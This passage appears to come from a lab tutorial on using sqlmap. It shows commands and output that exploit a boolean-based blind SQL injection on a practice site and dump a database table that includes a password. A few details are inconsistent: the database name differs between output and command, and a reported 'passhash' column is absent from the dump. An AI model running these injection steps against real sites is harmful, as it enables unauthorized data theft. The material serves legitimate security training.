 ```shell-session
back-end DBMS: MySQL >= 5.1
[08:50:46] [INFO] fetching tables for database: 'users'
Database: acuart
[3 tables]
+-----------+
| johnath   |
| alexas    |
| thomas    |     
+-----------+

[text removed]
```

Now that we have all the available table names of the database, let's dump the records present in the `thomas` table. To do so, we will define the database with the `-D` flag, the table with the `-T` flag, and for extracting the records of the table, we will use the `--dump` flag.

Extracting records from a table  

```shell-session
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:51:48] [INFO] resuming back-end DBMS' mysql' 
[08:51:48] [INFO] testing connection to the target URL
[08:51:49] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]
[08:51:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[08:51:49] [INFO] fetching columns for table 'thomas' in database 'users'
[08:51:49] [INFO] fetching entries for table 'thomas' in database' users'
[08:51:49] [INFO] recognized possible password hashes in column 'passhash'
do you want to store hashes to a temporary file for eventual further processing n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: users
Table: thomas
[1 entry]
+---------------------+------------+---------+
| Date                | name       | pass    |    
+---------------------+------------+----------
| 09/09/2024          | Thomas THM | testing |    
+---------------------+------------+---------+

[text removed]
```
